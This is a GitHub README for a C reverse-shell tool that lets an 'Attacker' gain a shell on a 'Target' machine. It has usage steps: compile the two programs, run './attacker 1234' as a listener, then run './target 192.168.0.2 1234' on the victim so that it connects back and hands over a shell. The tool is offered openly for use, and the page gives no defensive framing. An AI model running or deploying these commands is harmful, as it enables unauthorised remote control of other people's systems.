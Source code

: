 # reverseShell
[![GitHub Issues](https://img.shields.io/github/issues/Yashvendra/reverseShell.svg?label=Issues)](https://www.github.com/Yashvendra/reverseShell/issues)
[![contributions welcome](https://img.shields.io/badge/contributions-welcome-brightgreen.svg?style=flat&label=Contributions&colorA=blue&colorB=black	)](#)

👨‍💻 Script in C which after compiling can be used by an 
**Attacker** 
to gain a shell of
**Target** 
machine.

## Usage
Firstly, you should compile the above C programs. In my case I used `g++` compiler and gave the output files name as `attacker` and `target` respectively.
### 1. Setup a server and listen for incoming connections.
On your machine setup a server and start listening on a port.

``` 
./attacker 1234
```

### 2. Execute client script on target and setup a connection to the server
You can do this by simply executing the target compiled file

```
./target 192.168.0.2 1234
```

Now you should have gained a shell on the server machine.

## Demo
![Alt Text](https://github.com/Yashvendra/reverseShell/blob/master/Demo/video-gif.gif)

## License
MIT © y_k_007

## Author
If you liked the project then kindly support it by giving it a star ⭐!

